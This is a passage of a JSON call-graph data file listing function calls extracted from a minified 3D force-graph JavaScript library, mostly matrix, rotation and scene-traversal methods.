"relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeShear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "determinant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makePerspective"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeOrthographic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "order"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "order"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromVector3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChangeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRotationFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRotationFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRotationFromMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRotationFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnWorldAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "localToWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "worldToLocal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromRotationMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeFromParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeFromParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeFromParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectByName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectsByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjectsByProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "raycast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseAncestors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseAncestors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": 